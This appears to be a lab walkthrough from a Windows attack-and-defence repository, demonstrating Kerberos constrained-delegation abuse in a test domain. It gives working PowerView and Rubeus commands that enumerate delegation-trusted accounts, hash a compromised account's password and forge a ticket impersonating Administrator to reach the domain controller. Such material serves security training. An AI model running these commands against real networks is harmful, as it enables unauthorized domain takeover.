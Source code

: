 # Attack
To demonstrate the attack, we assume that the user web_service is trusted for delegation and has been compromised. The password of this account is Slavi123. To begin, we will use the Get-NetUser function from PowerView to enumerate user accounts that are trusted for constrained delegation in the domain:
```bash
Get-NetUser -TrustedToAuth
```
![image](https://github.com/offensivecyber03/Windows-Attack-Defense/assets/71892943/4091dd7f-0f84-4991-989b-5d501a69dc4a)

Before we request a ticket with Rubeus (which expects a password hash instead of cleartext for the /rc4 argument used subsequently), we need to use it to convert the plaintext password Slavi123 into its NTLM hash equivalent:
```bash
.\Rubeus.exe hash /password:Slavi123
```
![image](https://github.com/offensivecyber03/Windows-Attack-Defense/assets/71892943/ceec935a-0db8-4313-a897-64598a4715a3)
<br>
Then, we will use Rubeus to get a ticket for the Administrator account:
```bash
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
```
![image](https://github.com/offensivecyber03/Windows-Attack-Defense/assets/71892943/2878151a-dcd3-4696-8707-a506da1c4b2e)
<br>
To confirm that Rubeus injected the ticket in the current session, we can use the klist command:
![image](https://github.com/offensivecyber03/Windows-Attack-Defense/assets/71892943/51adf912-67cf-447f-b765-efe9e7b70b75)
<br>
With the ticket being available, we can connect to the Domain Controller impersonating the account Administrator:
![image](https://github.com/offensivecyber03/Windows-Attack-Defense/assets/71892943/4434b840-dc88-4d5f-b135-2c6a527b0610)

